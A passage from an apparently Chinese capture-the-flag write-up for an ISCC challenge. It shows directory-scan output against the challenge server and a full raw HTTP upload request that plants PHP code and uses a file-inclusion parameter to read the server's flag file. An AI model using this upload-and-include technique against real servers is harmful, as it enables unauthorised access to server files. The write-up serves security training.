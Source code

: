 发现酷似
$$
2=0
$$
因而尝试访问`/f12g.txt`，获得flag`ISCC{@ll_h@ve_t2_w1n_2n_th3_ch3ssb2@rd!}`

### 纸嫁衣6外传

对目录进行排查：

```
[14:28:03] 200 -   115B - /docker-compose.yml
[14:28:03] 200 -   409B - /Dockerfile
[14:28:06] 200 -   556B - /includes/
[14:28:06] 301 -   328B - /includes  ->  http://112.126.73.173:49102/includes/
[14:28:06] 200 -   875B - /index
[14:28:06] 200 -   875B - /index.php
[14:28:06] 200 -   875B - /index.php/login/
[14:28:12] 403 -   282B - /server-status
[14:28:12] 403 -   282B - /server-status/
[14:28:13] 403 -   282B - /src/
[14:28:13] 301 -   323B - /src  ->  http://112.126.73.173:49102/src/
[14:28:15] 500 -   615B - /upload/b_user.xls
[14:28:15] 500 -   615B - /upload/1.php
[14:28:15] 500 -   615B - /upload/2.php
[14:28:15] 500 -   615B - /upload/b_user.csv
[14:28:15] 500 -   615B - /upload/upload.php
[14:28:15] 500 -   615B - /upload/test.php
[14:28:15] 500 -   615B - /upload/loginIxje.php
[14:28:15] 301 -   327B - /uploads  ->  http://112.126.73.173:49102/uploads/
[14:28:15] 403 -   282B - /uploads/
[14:28:15] 500 -   615B - /upload/test.txt
[14:28:15] 200 -    2KB - /upload.php
[14:28:15] 200 -    2KB - /upload
[14:28:15] 200 -    2KB - /upload/
```

在`/index.php/login/`得到提示，访问`/includes/flag`得到提示为“get”一把锤子

于是在上传文件时尝试文件包含：

```
POST /upload.php HTTP/1.1
Host: 112.126.73.173:49102
Content-Length: 179
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
Origin: http://112.126.73.173:49102
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBZA4W8JyBuKQkfZf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://112.126.73.173:49102/upload.php?chuizi=uploads/2.txt
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryBZA4W8JyBuKQkfZf
Content-Disposition: form-data; name="file"; filename="2.txt"
Content-Type: text/plain

<?php highlight_string("/var/www/html/includes/flag.php");
------WebKitFormBoundaryBZA4W8JyBuKQkfZf--
```
